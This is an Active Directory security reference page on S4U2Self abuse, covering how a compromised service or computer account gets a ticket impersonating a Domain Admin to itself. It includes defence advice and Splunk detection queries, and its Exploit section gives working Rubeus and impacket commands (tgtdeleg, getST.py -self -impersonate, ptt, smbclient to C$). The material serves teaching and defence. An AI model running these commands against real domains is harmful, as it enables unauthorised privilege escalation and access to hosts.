

---
---

# S4U2Self Abuse

Local privilege escalation through service-for-user-to-self.

S4U2Self abuse exploits the fact that any computer account can request a service ticket to itself
on behalf of any domain user -- including Domain Admins. The resulting ticket contains a
**legitimate PAC** with the impersonated user's real group memberships. When the service reads
this PAC and builds a Windows access token, the token has the impersonated user's privileges.
This enables local privilege escalation without any delegation configuration.

For the protocol mechanics of S4U2Self, see [S4U Extensions](../../protocol/s4u.md).

---

## How It Works

### The S4U2Self Primitive

Per [MS-SFU &sect;2.2.1], any service with an SPN can use S4U2Self to request a service ticket
to itself on behalf of another user. The KDC looks up the specified user in Active Directory,
builds a PAC with that user's real group memberships, and returns a service ticket encrypted with
the requesting service's key.

This is a **normal, intended feature** of Kerberos. S4U2Self exists for protocol transition --
when a user authenticates via NTLM, forms-based auth, or certificates, and the service needs a
Kerberos ticket to make authorization decisions or delegate the user's identity.

### Why Computer Accounts Can Do This

Every domain-joined computer has a computer account with SPNs (`HOST/<hostname>`,
`RestrictedKrbHost/<hostname>`) registered at join time. These SPNs satisfy the S4U2Self
requirement. No additional delegation configuration is needed.

### Microsoft Virtual Accounts

On Windows, several built-in service identities authenticate to the network (and to the KDC)
as the computer account:

| Identity | Example | Authenticates As |
|----------|---------|------------------|
| `NT AUTHORITY\NETWORK SERVICE` | IIS application pools, Windows services | Computer account |
| `NT SERVICE\<servicename>` | `NT SERVICE\MSSQLSERVER`, `NT SERVICE\W3SVC` | Computer account |
| `defaultapppool` | IIS default application pool | Computer account |
| Virtual service accounts | Any `NT SERVICE\*` account | Computer account |

If an attacker achieves code execution as any of these identities on a domain-joined machine,
they can use S4U2Self to request a ticket as Domain Admin to the machine itself.

### The Attack



1. **Obtain a TGT for the computer account** -- if running as a virtual account, use Rubeus
   `tgtdeleg` to obtain the machine's TGT from the existing Kerberos session. Alternatively,
   if the computer account's credentials are known, request the TGT directly.

2. **S4U2Self** -- request a service ticket to the machine itself on behalf of a high-privilege
   user (e.g., `administrator`). The KDC returns a ticket with the administrator's real PAC.

3. **Use the ticket locally** -- present the ticket to local services. The local service reads
   the PAC and grants access based on the administrator's group memberships.

### What the Ticket Looks Like

The S4U2Self ticket is a **legitimate service ticket** issued by the real KDC with a real PAC.
It is **not** a forged ticket. The PAC signatures are valid. The group memberships are accurate.
This makes it significantly stealthier than a [Silver Ticket](../forgery/silver-ticket.md), which
has a fabricated PAC with an invalid KDC signature.

### FORWARDABLE Flag and Delegation

The S4U2Self ticket in this scenario is typically **not FORWARDABLE** because the machine
account does not have `TRUSTED_TO_AUTH_FOR_DELEGATION` configured. This means the ticket
**cannot** be used for S4U2Proxy (constrained delegation) without additional configuration.

However, for **local privilege escalation**, FORWARDABLE is irrelevant -- the ticket is used
locally, not forwarded to another service.

If RBCD is configured on a target (where the computer account is allowed to delegate), the
non-FORWARDABLE ticket **can** be used in S4U2Proxy because
[RBCD does not check the FORWARDABLE flag](../../protocol/s4u.md#forwardable-flag).

### Service Name Substitution

The `-altservice` flag (in impacket's `getST.py` and Rubeus) allows requesting a ticket for one
service class and rewriting the `sname` to another. Since `sname` is not protected by the PAC
signature, an attacker can change `HOST/WEB01` to `CIFS/WEB01` or `HTTP/WEB01` to access
different services on the same machine.

---

## Defend

### Credential Guard

Credential Guard prevents extraction of Kerberos tickets from LSASS memory. Even if the attacker
has code execution as a virtual account, they cannot extract the computer account's TGT from
LSASS to use in S4U2Self.

!!! info "Rubeus `tgtdeleg` does not require LSASS access"
    The `tgtdeleg` trick obtains a usable TGT through the Kerberos API by requesting a service
    ticket for a service with unconstrained delegation, which triggers the inclusion of a
    forwarded TGT. Credential Guard does **not** block this technique. However, if no
    unconstrained delegation targets exist in the domain, `tgtdeleg` fails.

### Restrict Running Account Privileges

Minimize the number of services running as computer accounts or virtual accounts. Where possible,
use dedicated user service accounts with limited group memberships rather than relying on the computer
account identity.

### Protect High-Value Accounts

Add Domain Admins and other sensitive accounts to the **Protected Users** group or set the
**"Account is sensitive and cannot be delegated"** flag. While these controls are designed for
delegation scenarios, they also affect S4U2Self: the resulting ticket will not have the
FORWARDABLE flag, limiting its use in delegation chains (though local access still works).

### Patch for CVE-2022-26923 and Related Vulnerabilities

Keep domain controllers patched. Several vulnerabilities in S4U processing have been discovered
and patched. Ensure the `PAC_REQUESTOR` enforcement from CVE-2021-42287 is enabled.

---

## Detect

### S4U2Self Activity for High-Privilege Users

Monitor for S4U2Self requests that target high-privilege accounts from computer accounts that
have no delegation configured. This is the most direct detection signal.

Event 4769 (service ticket request) with the `Transited Services` field populated indicates
S4U activity:

```text
index=security EventCode=4769
| where isnotnull(TransitedServices) AND TransitedServices!=""
| search TargetUserName IN ("administrator", "domain_admin_*")
| stats count by ServiceName, TargetUserName, IpAddress
```

### Unexpected Computer Account TGT Requests

Event 4768 (TGT request) for computer accounts from unexpected sources. If a computer account
requests a TGT from a process other than the normal Kerberos client, this may indicate
`tgtdeleg` or direct TGT request by an attacker:

```text
index=security EventCode=4768 TargetUserName="*$"
| where NOT match(IpAddress, "expected_machine_ip_pattern")
```

### Behavioral Indicators

| Signal | Description |
|---|---|
| S4U2Self from non-delegating accounts | Computer accounts requesting tickets on behalf of Domain Admins when no delegation is configured |
| Privilege escalation on the host | Sudden admin-level access from a service identity that previously had limited access |
| Service ticket for local machine | Event 4769 where the service SPN matches the requesting machine's own hostname |

---

## Exploit

### 1. Obtain the Computer Account's TGT

**From a virtual account context (Rubeus `tgtdeleg`):**

```powershell
# Running as NETWORK SERVICE or a virtual account
Rubeus.exe tgtdeleg /nowrap
```

This retrieves a usable TGT for the computer account by exploiting the Kerberos API delegation
mechanism.

**If computer account credentials are known:**

```bash
# From Linux with impacket
getTGT.py CORP.LOCAL/WEB01$ -hashes :<nt_hash>

# From Windows with Rubeus
Rubeus.exe asktgt /user:WEB01$ /rc4:<nt_hash> /nowrap
```

### 2. Request a Service Ticket via S4U2Self

**With impacket (`getST.py -self`):**

```bash title="S4U2Self with sname substitution — impersonate administrator on local CIFS"
export KRB5CCNAME=WEB01.ccache
getST.py -self -impersonate administrator -altservice cifs/WEB01.corp.local \
  -k -no-pass -dc-ip 10.0.0.1 CORP.LOCAL/WEB01$
```

The `-self` flag triggers S4U2Self. The `-impersonate` flag specifies the user to impersonate.
The `-altservice` flag rewrites the `sname` in the resulting ticket.

**With Rubeus:**

```powershell
Rubeus.exe s4u /self /nowrap /impersonateuser:administrator \
  /altservice:cifs/WEB01.corp.local /ticket:<base64_tgt>
```

### 3. Use the Ticket

**On Linux:**

```bash
export KRB5CCNAME=administrator@cifs_WEB01.corp.local@CORP.LOCAL.ccache
smbclient //WEB01.corp.local/C$ -k --no-pass
```

**On Windows:**

```powershell
# Inject the ticket
Rubeus.exe ptt /ticket:<base64_ticket>

# Access local resources as administrator
dir \\WEB01.corp.local\C$
```

---

## Tools

!!! info "kerbwolf does not implement S4U2Self abuse"
    S4U2Self abuse requires the S4U protocol extensions. kerbwolf focuses on the core Kerberos
    authentication exchanges.

| Tool | Command | Notes |
|---|---|---|
| Rubeus | `s4u /self /impersonateuser:administrator /altservice:cifs/host /ticket:<tgt>` | S4U2Self with SPN substitution; chain with `tgtdeleg` for full local privesc |
| Rubeus | `tgtdeleg /nowrap` | Obtain computer account TGT from a virtual account context |
| impacket `getST.py` | `getST.py -self -impersonate administrator -altservice cifs/host -k -no-pass CORP/MACHINE$` | S4U2Self from Linux with ccache output |
| impacket `getTGT.py` | `getTGT.py CORP/MACHINE$ -hashes :<hash>` | Request computer account TGT if credentials are known |
